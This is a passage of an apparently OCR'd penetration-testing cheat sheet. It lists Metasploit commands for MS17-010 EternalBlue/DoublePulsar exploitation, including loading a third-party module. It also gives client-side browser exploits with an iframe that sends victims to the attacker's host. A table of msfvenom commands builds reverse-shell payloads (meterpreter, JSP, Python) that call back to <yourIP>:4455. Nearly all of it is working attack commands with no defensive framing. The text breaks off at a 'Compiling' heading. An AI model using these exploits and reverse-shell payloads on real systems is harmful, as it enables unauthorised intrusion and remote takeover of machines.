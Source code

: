 `use auxiliary/scanner/smb/smb_ms17_010`

**x86 / 64:**

```
cd /root/

git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git

cp Eternalblue-Doublepulsar-Metasploit/eternalblue_doublepulsar.rb /root/.msf4/modules/

msfconsole > reload_all

use exploit/windows/smb/eternalblue_doublepulsar
```

**Built-in MSF (x64 ONLY - Win7, Win Server 2008 R2)**

`use exploit/windows/smb/ms17_010_eternalblue`

** x86 x64 - requires a named pipe**

`use exploit/windows/smb/ms17_010_psexec`

**Client Side Exploits**

- `use exploit/windows/browser/ms10_002_aurora`

- `use exploit/windows/browser/ie_execcommand_uaf`

- Set it up, then embed an iframe or something in the client-accessible codespace like:

 `<iframe src="http://<yourIP>:8080/hM4zWdD3yABLd"></iframe>`

- https://www.offensive-security.com/metasploit-unleashed/client-side-exploits/

- - - -

#### MSFVENOM Payloads:

Type | Command
---- | -------
**Linux** | `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<yourIP> LPORT=4455 -f elf > shell.elf`
**Windows** | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<yourIP> LPORT=4455 -f exe > shell.exe`
**PHP** | `msfvenom -p php/meterpreter_reverse_tcp LHOST=<yourIP> LPORT=4455 -f raw > shell.php`
**ASP** | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<yourIP> LPORT=4455 -f asp > shell.asp`
**JSP** | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<yourIP> LPORT=4455 -f raw > shell.jsp`
**WAR** | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<yourIP> LPORT=4455 -f war > shell.war`
**Python** | `msfvenom -p cmd/unix/reverse_python LHOST=<yourIP> LPORT=4455 -f raw > shell.py`

- - - -

### Compiling

#### Windoze shit

